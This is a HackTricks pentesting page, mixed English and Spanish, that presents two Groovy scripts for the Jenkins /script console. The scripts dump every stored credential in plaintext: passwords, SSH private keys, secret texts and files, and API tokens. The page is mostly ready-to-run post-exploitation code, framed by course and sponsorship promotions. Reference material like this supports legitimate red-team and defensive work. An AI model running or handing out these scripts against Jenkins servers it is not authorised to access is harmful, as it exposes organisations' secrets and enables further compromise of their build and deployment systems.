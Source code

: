 # Jenkins Dumping Secrets from Groovy

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
Tenga en cuenta que estos scripts solo enumerarán los secretos dentro del archivo `credentials.xml`, pero los **archivos de configuración de construcción** también pueden tener **más credenciales**.
{% endhint %}

You can **dump all the secrets from the Groovy Script console** in `/script` running this code
```java
// From https://www.dennisotugo.com/how-to-view-all-jenkins-secrets-credentials/
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import org.jenkinsci.plugins.plaincredentials.StringCredentials
import org.jenkinsci.plugins.plaincredentials.impl.FileCredentialsImpl

def showRow = { credentialType, secretId, username = null, password = null, description = null ->
println("${credentialType} : ".padLeft(20) + secretId?.padRight(38)+" | " +username?.padRight(20)+" | " +password?.padRight(40) + " | " +description)
}

// set Credentials domain name (null means is it global)
domainName = null

credentialsStore = Jenkins.instance.getExtensionList('com.cloudbees.plugins.credentials.SystemCredentialsProvider')[0]?.getStore()
domain = new Domain(domainName, null, Collections.<DomainSpecification>emptyList())

credentialsStore?.getCredentials(domain).each{
if(it instanceof UsernamePasswordCredentialsImpl)
showRow("user/password", it.id, it.username, it.password?.getPlainText(), it.description)
else if(it instanceof BasicSSHUserPrivateKey)
showRow("ssh priv key", it.id, it.passphrase?.getPlainText(), it.privateKeySource?.getPrivateKey()?.getPlainText(), it.description)
else if(it instanceof StringCredentials)
showRow("secret text", it.id, it.secret?.getPlainText(), '', it.description)
else if(it instanceof FileCredentialsImpl)
showRow("secret file", it.id, it.content?.text, '', it.description)
else
showRow("something else", it.id, '', '', '')
}

return
```
#### o este:
```java
import java.nio.charset.StandardCharsets;
def creds = com.cloudbees.plugins.credentials.CredentialsProvider.lookupCredentials(
com.cloudbees.plugins.credentials.Credentials.class
)

for (c in creds) {
println(c.id)
if (c.properties.description) {
println("   description: " + c.description)
}
if (c.properties.username) {
println("   username: " + c.username)
}
if (c.properties.password) {
println("   password: " + c.password)
}
if (c.properties.passphrase) {
println("   passphrase: " + c.passphrase)
}
if (c.properties.secret) {
println("   secret: " + c.secret)
}
if (c.properties.secretBytes) {
println("    secretBytes: ")
println("\n" + new String(c.secretBytes.getPlainData(), StandardCharsets.UTF_8))
println("")
}
if (c.properties.privateKeySource) {
println("   privateKey: " + c.getPrivateKey())
}
if (c.properties.apiToken) {
println("   apiToken: " + c.apiToken)
}
if (c.properties.token) {
println("   token: " + c.token)
}
println("")
}
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
